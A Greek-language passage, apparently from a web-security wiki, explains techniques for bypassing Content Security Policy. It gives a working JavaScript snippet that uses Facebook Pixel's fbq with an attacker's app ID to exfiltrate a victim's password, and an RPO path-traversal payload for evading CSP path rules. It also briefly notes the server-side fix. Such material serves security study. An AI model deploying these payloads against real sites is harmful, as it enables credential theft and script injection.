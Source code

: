1. Δημιουργήστε ένα λογαριασμό Ανάπτυξης Facebook εδώ.
2. Δημιουργήστε ένα νέο "Facebook Login" εφαρμογή και επιλέξτε "Ιστοσελίδα".
3. Πηγαίνετε σε "Ρυθμίσεις -> Βασικές" και πάρτε το "App ID" σας.
4. Στην ιστοσελίδα-στόχο απ' όπου θέλετε να εξάγετε δεδομένα, μπορείτε να τα εξάγετε απευθείας χρησιμοποιώντας το Facebook SDK εργαλείο "fbq" μέσω ενός "customEvent" και των δεδομένων φορτίου.
5. Πηγαίνετε στο "Διαχειριστή Συμβάντων" της εφαρμογής σας και επιλέξτε την εφαρμογή που δημιουργήσατε (σημείωση: ο διαχειριστής συμβάντων μπορεί να βρεθεί σε μια διεύθυνση URL παρόμοια με αυτή: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events
6. Επιλέξτε την καρτέλα "Δοκιμαστικά Συμβάντα" για να δείτε τα συμβάντα που στέλνονται από την ιστοσελίδα "σας".

Στη συνέχεια, στην πλευρά του θύματος, εκτελείτε τον παρακάτω κώδικα για να αρχικοποιήσετε το Facebook tracking pixel ώστε να δείχνει στον λογαριασμό ανάπτυξης του επιτιθέμενου στο Facebook app-id και να εκδώσετε ένα προσαρμοσμένο συμβάν όπως αυτό:
```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
### Bypass μέσω RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

Εκτός από την προαναφερθείσα ανακατεύθυνση για την παράκαμψη των περιορισμών διαδρομής, υπάρχει μια άλλη τεχνική που ονομάζεται Relative Path Overwrite (RPO) που μπορεί να χρησιμοποιηθεί σε κάποιους διακομιστές.

Για παράδειγμα, αν το CSP επιτρέπει τη διαδρομή `https://example.com/scripts/react/`, μπορεί να παρακαμφθεί ως εξής:
```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
Το πρόγραμμα περιήγησης θα φορτώσει τελικά το `https://example.com/scripts/angular/angular.js`.

Αυτό λειτουργεί επειδή για τον περιηγητή, φορτώνετε ένα αρχείο με το όνομα `..%2fangular%2fangular.js` που βρίσκεται κάτω από το `https://example.com/scripts/react/`, το οποίο είναι συμμορφωμένο με το CSP.

Έτσι, θα το αποκωδικοποιήσουν, ζητώντας αποτελεσματικά το `https://example.com/scripts/react/../angular/angular.js`, το οποίο είναι ισοδύναμο με το `https://example.com/scripts/angular/angular.js`.

Αξιοποιώντας αυτήν την αντίφαση στην ερμηνεία του URL μεταξύ του περιηγητή και του διακομιστή, μπορούν να παρακαμφθούν οι κανόνες διαδρομής.

Η λύση είναι να μην θεωρείτε το `%2f` ως `/` στην πλευρά του διακομιστή, εξασφαλίζοντας συνεπή ερμηνεία μεταξύ του περιηγητή και του διακομιστή για να αποφευχθεί αυτό το ζήτημα.

Παράδειγμα Online: [ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Εκτέλεση JS μέσω Iframes

{% content-ref url="../xss-cross-site-scripting/iframes-in-xss-and-csp.md" %}
[iframes-in-xss-and-csp.md](../xss-cross-site-scripting/iframes-in-xss-and-csp.md)
{% endcontent-ref %}
